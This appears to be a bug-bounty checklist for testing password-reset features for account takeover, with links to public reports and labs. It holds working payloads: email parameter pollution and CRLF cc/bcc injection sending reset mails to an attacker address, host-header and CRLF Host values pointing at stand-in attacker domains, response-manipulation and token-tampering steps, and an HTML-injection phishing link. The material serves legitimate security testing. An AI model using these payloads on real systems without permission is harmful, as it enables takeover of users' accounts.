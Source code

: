 ```yaml
---
description: Password Reset Security testing Checklist
---
```


# Reset Password

* [ ] [**Weak Cryptography to Account Takeover’s**](https://vasuyadav0786.medium.com/weak-cryptography-to-account-takeovers-87782224ed0d)
* [ ] [**Weak Cryptography in Password Reset**](https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9)
*   [ ] [Host Header Poisoning](https://hackerone.com/reports/1108874) [0xacb.com/normalization\_table](https://0xacb.com/normalization_table)

    ```python
    victim.com@attacker.com 
    ```
* [ ] [**IDN Homograph Attack leads to ATO**](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)
* [ ] _**Password reset with manipulating email parameter (BAC)**_

```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

```python
step 1: Attacker Enter the victim's email or mobile number into the forgot password field.
step 2: Attacker intercept the request and got JSON data like that

{“email”:”victim@gmail.com”,”token”:”1234"}
step 3: Attacker change victim email to his email id

{“email”:”attacker@gmail.com”,”token”:”1234"}
and forward the request.

*Notice on the old token is deactivated or not.
```

*   [ ] **Response Manipulation to ATO**

    ```jsx
    1. Do Normal Reset Password Process and note the successful  response 
    2. Request for reset password token 
    3. enter 00000 or any random number 
    4. Intercept the response
    5. delete error message and change the status code to 200 and change body like what you noted in step1
    ```
*   [ ] IDOR to ATO

    **IDOR on Reset Password**

    The last one was also an Basic IDOR, When I requested for reset password then the request response looks like this

    ![https://miro.medium.com/v2/1\*7GQ1sbFDEllEY1kpQodGoA.jpeg](https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg)

    Then OTP came to my email and I entered the OTP but when I entered new password and captured that request

    ![https://miro.medium.com/v2/1\*Vk7-7Tdd\_bFmWAul2\_BsSQ.jpeg](https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg)

    Then I noticed there was no OTP field, but there was a user id, which was encrypted but was being leaked in the response, so I just replaced it with the user id of another account, and bam, my other account’s password was changed.
*   [ ] Race Condition

    [Lab: Exploiting time-sensitive vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
*   [ ] Play with token

    ```python
    1- Completely remove the token
    2- change it to 00000000...
    3- use null/nil value
    4- try expired token
    5- try an array of old tokens
    6- look for race conditions
    7- change 1 char at the begin/end to see if the token is evaluated
    8- use unicode char jutzu to spoof email address
    ```
* [ ] [**Password reset broken logic \[Portswigger\]**](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
* [ ] [**No length on password**](https://hackerone.com/reports/1411363)
* [ ] [xss\_html-injection](../xss_html-injection/ "mention") **in email section**
* [ ] [**Reset/Forgotten Password Bypass \[Hacktricks\]**](https://book.hacktricks.xyz/pentesting-web/reset-password)
* [ ] [**Bruteforcing password reset tokens**](https://hackerone.com/reports/271533)
* [ ] [**No Rate Limit On Reset Password**](https://hackerone.com/reports/1166066)
* [ ] [**Enumeration of username on password reset page**](https://hackerone.com/reports/806151)
* [ ] [**Password reset token leaked via Referer header**](https://hackerone.com/reports/1320242)
  * Request password reset to your email address
  * Click on the password reset link
  * Dont change password
  * Click any 3rd party websites(eg: Facebook, twitter)
  * Intercept the request in burpsuite proxy
  * Check if the referer header is leaking password reset token. **Reference:**
  * [https://hackerone.com/reports/342693](https://hackerone.com/reports/342693)
  * [https://hackerone.com/reports/272379](https://hackerone.com/reports/272379)
  * [https://hackerone.com/reports/737042](https://hackerone.com/reports/737042)
  * [https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)
  * [https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1](https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1) **Impact** It allows the person who has control of particular site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
* [ ] [**Failure to Invalidate Session > On Password Reset**](https://hackerone.com/reports/411337)
*   [ ] [**HTML\_Injection\_on\_password\_reset\_page**](https://github.com/KathanP19/HowToHunt/blob/master/HTML_Injection/HTML_Injection_on_password_reset_page.md)

    ```
    ### Steps

    1. Create your account
    2. Edit your name to `<h1>attacker</h1>` or `"abc><h1>attacker</h1>` and save it.
    3. Request for a reset password and check your email.
    4. You will notice the `<h1>` tag getting executed

    * HTML injection are usually considered as low to medium severity bugs but you can escalate the severity by serving a
    malicious link by using `<a href>` for eg: `<h1>attacker</h1><a href="your-controlled-domain"Click here</a>`

    * You can redirect the user to your malicious domain and serve a fake reset password page to steal credentials
    Also you can serve a previously found XSS page and steal user cookies etc etc.. The creativity lies on you..

    ```
* [ ] **Password Reset Token Sent Over HTTP**
* [ ] **Token is Not Invalidated After Use**
* [ ] **Cleartext Transmission of Session Token**
* [ ] [**Password Policy Restriction Bypass**](https://hackerone.com/reports/1675730)
* [ ] Token is Not Invalidated After Email Change/Password Change
  * [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
* [ ] Token Has Long Timed Expiry
* [ ] Token is Not Invalidated After New Token is Requested
* [ ] Token is Not Invalidated After Login
* [ ] If there is a feature to reset password using username then try make two accounts with the same username but different emails&#x20;

{% embed url="https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf" %}

*   [ ] CRLF in URL

    ```
    with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
    ```
